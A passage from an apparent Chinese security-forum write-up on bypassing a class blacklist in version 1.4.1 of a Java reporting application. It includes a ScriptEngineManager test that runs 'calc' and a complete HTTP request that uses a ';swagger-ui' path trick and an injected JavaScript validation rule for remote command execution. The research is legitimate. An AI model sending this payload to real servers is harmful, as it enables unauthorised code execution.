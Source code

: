 ```http
  "setType": "1"
}

```

#### 1.4.1版本bypass

1.4.1版本中加了黑名单，对engine做了过滤，但是打了断点再用一开始payload打没反应

![image-20241020162313880](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-d33259cd91a6c8e8848443038b326e6723ec12a9.png)

跟一下getScriptEngine

![image-20241020162606046](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-87df24e6ae5646e477cf8079ce0423d4ee950c00.png)

查了一下，大概作用是这样，就是不能用黑名单的类，也不能用反射

![image-20241020162929301](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-1178aab3765ce5bf2d3987accc3d59ad1e25e52d.png)

用网上流传的payload打会这样

![image-20241020161709875](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-a8e362d8cf5cf2ceec29cd6b59ff153b7668063e.png)

网上查了一下java其他命令执行的方法好像都离不开黑名单里的这三个类和反射的样子，查到一种使用javax.script.ScriptEngineManager开命令执行的方法，感觉不大行但是作为小白还是想试试

```java
public class EvalTest {
    public static void main(String[] args) throws ScriptException {
        Object result = new ScriptEngineManager().getEngineByExtension("js").eval("java.lang.Runtime.getRuntime().exec(\"calc\")");
        System.out.println(result);
    }
}
```

试了一下可以，但是为什么呢，这样执行命令本质不也是执行的java.lang.Runtime，不是把java.lang.Runtime过滤了吗，可能是因为套了一层javax.script.ScriptEngineManager，而java.lang.Runtime在第二层，classfilter那里只看第一层的类？

```http
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 127.0.0.1:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 190

{
  "sampleItem": "1",
  "validationRules": "function verification(){var a= new javax.script.ScriptEngineManager().getEngineByExtension(\"js\").eval(\"java.lang.Runtime.getRuntime().exec('calc')\")}"
}

```
